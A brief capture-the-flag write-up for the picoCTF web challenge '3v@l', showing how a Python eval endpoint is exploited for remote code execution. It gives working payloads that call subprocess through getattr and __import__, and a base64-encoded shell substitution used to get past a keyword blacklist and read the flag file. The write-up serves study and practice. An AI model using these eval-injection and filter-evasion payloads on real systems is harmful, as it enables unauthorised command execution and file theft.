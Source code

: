 ```yaml
---
layout: post
title:  "3v@l"
date:   2025-05-05 17:35:00 -0400
categories: PICO-challenge web medium 
tags: pico CTF writeup eval RCE
---
```


### CHALLENGE DESCRIPTION
![](assets/img/pico/3v@l/1.png)

### SOLUTION 
I have tried lots of things like XSS, SSTI, SQLi, but nothing happend.

So I do research, and try dynamic functions in Python.
```bash
getattr(__import__('subprocess'), 'getoutput')('whoami')
```
So we can see that we have the result. But there is a blacked list
![](assets/img/pico/3v@l/2.png)

We need to encode it the payload first before post it by `base64`
```bash
echo "cat /flag.txt" | base64

getattr(__import__('subprocess'), 'getoutput')('file_path=$(echo "Y2F0IC9mbGFnLnR4dAo=" | base64 --decode); $file_path')
```
